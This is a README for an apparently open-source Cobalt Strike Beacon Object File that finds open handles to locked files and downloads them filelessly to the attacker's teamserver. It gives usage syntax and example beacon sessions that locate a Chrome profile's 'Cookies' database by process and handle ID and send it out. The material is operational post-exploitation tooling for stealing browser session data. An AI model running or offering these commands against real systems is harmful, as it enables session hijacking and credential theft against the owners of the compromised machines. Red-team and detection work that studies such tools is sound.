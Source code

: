 # LocklessBof
A Beacon Object File (BOF) implementation of [Lockless](https://github.com/GhostPack/Lockless) by [HarmJ0y](https://github.com/HarmJ0y), designed to enumerate open file handles and facilitate the fileless download of locked files. Within this project, you'll find two BOFs: LocklessEnum and LocklessDownload.

## LocklessEnum
LocklessEnum can be used to enumerate open file handles to a locked file. Upon detecting an open file handle, LocklessEnum supplies the user with information including the associated Process ID (PID) and the handle ID, which can then be supplied as input to LocklessDownload to download the locked file. 
### LocklessEnum Usage
```
Usage: lockless-enum <filename> <processname>
Example: 
   lockless-enum Cookies 
   lockless-enum Cookies Chrome
lockless-enum Options: 
    <filename> -    (Required): The locked file's name.
    <processname> - (Optional): Narrow handle enumeration to the specified process. A partial name match is allowed (e.g., 'chro' for 'chrome')
```
## LocklessDownload
LocklessDownload can be used to download locked files. LocklessDownload requires the Process ID of the target process containing the open file handle, along with either the handle ID of the open file handle for the target file, or the filename to be downloaded. 
### LocklessDownload Usage
```
Usage: lockless-download <pid> <key> <value> <options>
Example:
   lockless-download 789 filename Cookies 
   lockless-download 789 handle_id 696
   lockless-download 789 handle_id 696 /copy C:\Users\<user>\AppData\Local\cookies123.tmp
lockless-download Options:
    <pid> -     	(Required): Process ID (PID) of the target application, queried for handles to desired locked file
    <key> -     	(Required): This can either be 'filename' or 'handle_id'
    <value> -   	(Required): If 'filename' is chosen, provide the full name of the file to be downloaded. The filename is case sensitive
                            If 'handle_id' is chosen, provide the handle ID to the locked file to be downloaded
    /copy -      	(optional): If the /copy switch is included, the file will be copied to disk. If not included, the file will filelessly be download to the cobalt strike teamserver. 
    <outputFile> - 	(optional): Full output path of file (ex: C:\Users\<user>\AppData\Local\cookies123.tmp)

```
## Example
Find out which process has a handle to the locked "Cookies" file and retrieve the handle id
```
beacon> lockless-enum Cookies
[+] host called home, sent: 6088 bytes
[+] received output:
Attempting to enumerate handle to file Cookies from  processes
[+] received output:
Process ID 2940 [Handle ID 1092] - Cookies [\Device\HarddiskVolume3\Users\defaultuser\AppData\Local\Google\Chrome\User Data\Profile 1\Network\Cookies]
```
Download the locked "Cookies" file using the identified pid and handle id
```
beacon> lockless-download 2940 handle_id 1092
[+] host called home, sent: 8796 bytes
[+] received output:
Attempting file download using handle_id 1092 from Process ID 2940
[+] received output:
Found file handle!
[+] received output:
File size is 524288

[*] started download of Cookies (524288 bytes)
[*] download of Cookies is complete
[+] received output:
Downloaded file Cookies from process ID: 2940
```
Download the locked "Cookies" file using the file name
```
beacon> lockless-download 2940 filename Cookies
[+] host called home, sent: 8810 bytes
[+] received output:
Attempting file download of filename Cookies from Process ID 2940
[+] received output:
Found file handle!
[+] received output:
File size is 524288

[*] started download of Cookies (524288 bytes)
[*] download of Cookies is complete
[+] received output:
Downloaded file Cookies from process ID: 2940
```
## References
[ProcessListHandles](https://github.com/trustedsec/CS-Remote-OPs-BOF/tree/main/Remote/ProcessListHandles) by [TrustedSec](https://github.com/trustedsec)  
[Lockless](https://github.com/GhostPack/Lockless) by [HarmJ0y](https://github.com/HarmJ0y)  
[Fileless download](https://github.com/fortra/nanodump) by [Fortra](https://github.com/fortra)  
Also big thanks to [KingOfTheNOPs](https://github.com/KingOfTheNOPs) for helping me resolve access mask issues with the handles. 
